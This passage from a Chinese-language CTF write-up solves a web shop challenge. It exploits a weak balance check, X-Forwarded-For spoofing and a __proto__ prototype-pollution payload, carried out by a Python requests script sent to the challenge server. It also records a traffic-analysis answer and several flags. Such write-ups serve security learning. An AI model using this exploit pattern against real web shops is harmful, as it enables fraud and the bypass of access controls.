 这个是控制数量的，每个产品的数量，可以看到quantity是可以根据v写入数据的，说明我们可以讲产品价格改成任意值

在购买的时候有个条件

```
if (req.session.money >= products[product].price * quantity) {
            products[product].quantity -= quantity;
```

这个if条件是说明你买啥就会扣你的钱来进行，不严格，简单来讲就是你把价格调成负数，你越买，钱越多

整体分析就是这样，思路就来了，我们可以先卖，卖的价格为负数，然后再买自己卖的，这样钱就够了，然后再买flag

写个脚本传一下吧

```
import requests

s = requests.Session()

print(s.post('http://206.189.236.145:3000/api/v1/sell', headers={'X-Forwarded-For': '127.0.0.1'}, json={'__proto__': {'admin': 'gg'}, 'mango': { 'quantity': 1 }}).text)  //  卖
print(s.post('http://206.189.236.145:3000/api/v1/money',json={ 'money': 2.5e+25 + 1 }).text)   //买
print(s.post('http://206.189.236.145:3000/api/v1/buy', json={ 'product': 'flags', 'quantity': 1 } ).json()['description'])   // 买
```

最终成功实现，得到flag

![image-20220721233640644](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207212336720.png?x-oss-process=hzy)

BDSEC{mummy_i_can't_write_javaScript}

> 至于我说到的我刚才被难到的地方是我一直把产品当成Get flags，脚本一直报错最后一步买flag的地方，也是因为代码审计不认真，毕竟代码说的很清楚，以后主要代码一定要认真看![image-20220721233917609](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207212339662.png?x-oss-process=hzy)

# Networking

## Victim & Attacker

流量分析，最终确定一个流量是攻击流量

![image-20220721194405112](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211944182.png?x-oss-process=hzy)

![image-20220721194422016](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207211944075.png?x-oss-process=hzy)

服务器ip是192.168.1.13

攻击者ip是192.168.1.10

BDSEC{192.168.1.13_192.168.1.10}

# Misc
